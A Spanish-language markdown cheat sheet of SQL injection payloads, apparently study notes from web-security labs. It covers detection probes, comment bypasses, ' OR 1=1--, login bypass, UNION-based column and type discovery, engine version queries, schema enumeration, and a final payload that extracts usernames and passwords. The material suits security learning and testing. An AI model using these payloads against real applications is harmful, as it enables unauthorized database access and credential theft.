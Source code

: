 # ATAQUE: SQL INJECTION

## IDENTIFICAR LA VULNERABILIDAD

' | simbolo comun para testear si existe SQLi o no.

" | simbolo comun para testear si existe SQLi o no.

' -- | simbolo comun para testear si existe SQLi o no

## BYPASS COMUNES

-- | dentro del lenguaje de SQL query, sirve para comentar de manera que todo lo que este despues de los simbolos, se ignora. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'--' AND released = 1

'#' | dentro del lenguaje de SQL query "#", sirve para comentar de manera que todo lo que este despues del simbolo, se ignora. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'#' AND released = 1

' OR 1=1-- | sirve para crear una consulta a un resultado booleano, de manera que el inicio de la consulta es leido, el resto no ya que
es siempre TRUE. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1

USER-- | cuando se tiene un usuario se podria probar la vulnerabilidad tratando de ver si hace bypass sin ingresar la contrasena.

## UNION ATTACK

pre-req: numero de columnas y data type de cada columna

### COMO SABER EL NUMERO DE COLUMNAS ?

metodo_1: ' ORDER BY 1-- \
metodo_2: ' UNION SELECT NULL--

### COMO SABER EL DATA TYPE DE UNA COLUMNA ?

> Microsoft, MySQL & PostgreSQL

' UNION SELECT 'a',NULL,NULL,NULL-- \
' UNION SELECT NULL,'a',NULL,NULL-- | se tiene que hacer iterativo cambiando los campos para saber que tipo son.

> Oracle

' UNION SELECT 'a','a' from DUAL--

### IDENTIFICAR INFORMACION DEL MOTOR DE BASE DE DATOS [TIPO/VERSION] 

Microsoft >> SELECT @@version 
MySQL >> SELECT @@version 
Oracle >> SELECT banner FROM v$version | SELECT version FROM v$instance 
PostgreSQL >> SELECT version() 

### LISTAR TABLAS DE LA BASE DE DATOS / [Microsoft/MySQL/PostgreSQL] 

SELECT [columns] FROM information_schema.tables | '+UNION+SELECT+table_name,null+FROM+information_schema.tables-- 
SELECT [columns] FROM information_schema.columns 

SELECT [columns] FROM information_schema.columns WHERE table_name = 'users_qmwbqm' 

### LISTAR TABLAS DE LA BASE DE DATOS / [Oracle] 

SELECT [columns] FROM all_tables 

SELECT [columns] FROM all_tab_columns WHERE table_name = 'USERS' 

### MOSTRAR INFORMACION DE OTRAS TABLAS [importante!]

' UNION SELECT username, password FROM users-- | retrieve the username and password from table "users"
